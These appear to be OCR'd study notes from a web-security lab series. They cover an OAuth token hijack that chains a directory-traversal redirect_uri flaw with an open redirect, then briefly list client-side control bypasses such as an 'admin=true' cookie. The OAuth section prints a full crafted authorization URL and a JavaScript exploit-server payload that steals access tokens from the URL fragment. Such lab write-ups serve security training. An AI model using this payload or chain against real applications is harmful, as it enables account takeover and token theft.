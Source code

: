 - Use this code to complete attacker OAuth signin

## 11.4	REDIRECT_URI TAMPERING WITH DIRECTORY TRAVERSAL AND OPEN REDIRECT [35]

### 11.4.1	DESCRIPTION

- Application does not allow arbitrary redirect_uri in OAuth flow
- However, application suffers from directory traversal in redirect_uri

`https://0a7600fa030265c2c09b6fb700bf0039.web-security-academy.net/oauth-callback/../` succeeds

- Application also suffers from Open Redirect elsewhere in the application

`GET /post/next?path=/post?postId=7`

- Combine these vulnerabilities for OAuth Hijack

```
https://oauth-0a7100ff03bd6506c0656fae027f00c3.web-security-academy.net/auth?client_id=isgfn26et0sfnowt1gyyv&redirect_uri=https://0a7600fa030265c2c09b6fb700bf0039.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0abe001b030265f9c0e16ff501a00034.web-security-academy.net/exploit&response_type=token&nonce=-1025754742&scope=openid%20profile%20email
```

- contents of /exploit

```
<script>
if (!document.location.hash) {
window.location = 'https://YOUR-LAB-AUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'

} else {
window.location = '/?'+document.location.hash.substr(1)
}
</script>
```

# 12	BYPASSING HTTP CLIENT-SIDE CONTROLS

## 12.1	HIDDEN FORM FIELDS

## 12.2	HTTP COOKIES

admin=true

## 12.3	URL PARAMETERS

http://www.derricksdoughnuts.com/apply_discount?discount_percent=10
